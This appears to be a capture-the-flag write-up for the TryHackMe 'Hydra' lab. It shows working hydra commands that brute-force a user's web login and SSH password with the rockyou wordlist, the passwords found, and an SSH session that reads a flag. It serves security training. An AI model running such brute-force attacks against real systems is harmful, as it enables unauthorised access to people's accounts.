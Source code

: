 # TryHackMe Hydra

# **Use Hydra to brute force Molly's web password. What is flag 1?**

- First we will brute force Molly's password with `hydra`:

```bash
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
[80][http-post-form] host: 10.10.80.107   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
```

- Login with the credentials and obtain the flag:

![/images/Untitled.png](TryHackMe%20Hydra%205f5874a48a5340cfadbdda0bc5a079dd/Untitled.png)

# **Use Hydra to brute force Molly's SSH password. What is flag 2?**

- Use Hydra's SSH along with the `rockyou.txt` password list to brute force Molly's server password:

```bash
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> -t 4 ssh
[22][ssh] host: 10.10.80.107   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
```

- Log-in to Molly's server using her SSH credentials:

```bash
┌─[azab@ze2pac]─[~]
└──╼ $ssh molly@<MACHINE_IP>
The authenticity of host '10.10.80.107 (10.10.80.107)' can't be established.
ECDSA key fingerprint is SHA256:2xyt3KiRbwRE9QAMyGP0CYYgTJvLavbf5t7RFWUeKro.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.80.107' (ECDSA) to the list of known hosts.
molly@10.10.80.107's password:
molly@ip-10-10-80-107:~$ ls
flag2.txt
molly@ip-10-10-80-107:~$ cat flag2.txt
THM{********************************}
```
